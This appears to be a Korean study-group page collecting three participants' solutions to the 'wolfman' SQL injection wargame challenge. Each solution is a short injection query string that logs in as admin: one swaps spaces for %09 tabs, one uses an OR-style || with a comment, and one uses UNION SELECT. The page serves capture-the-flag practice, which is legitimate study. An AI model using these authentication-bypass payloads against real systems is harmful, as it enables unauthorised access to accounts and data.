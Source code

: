 ## Q5. wolfman
<img src="/photo/prob_05.PNG" width="100%" height="100%" alt="problem"></img>

#### 5thofnovmbr
```
풀이: ?pw='%09or%09id='admin'--%09
```
```diff
+ %20대신 %09를 쓸 수 있다. 
```

#### zero2526
```
풀이: ?pw=-1%27||id=%27admin%27%23
```
```diff
+ ㄴ퍼ㅜ렄ㅍ
```

#### TOR-s
```
풀이: ?pw=1' union select 'admin
```
```diff
+ union select 연습중!
```
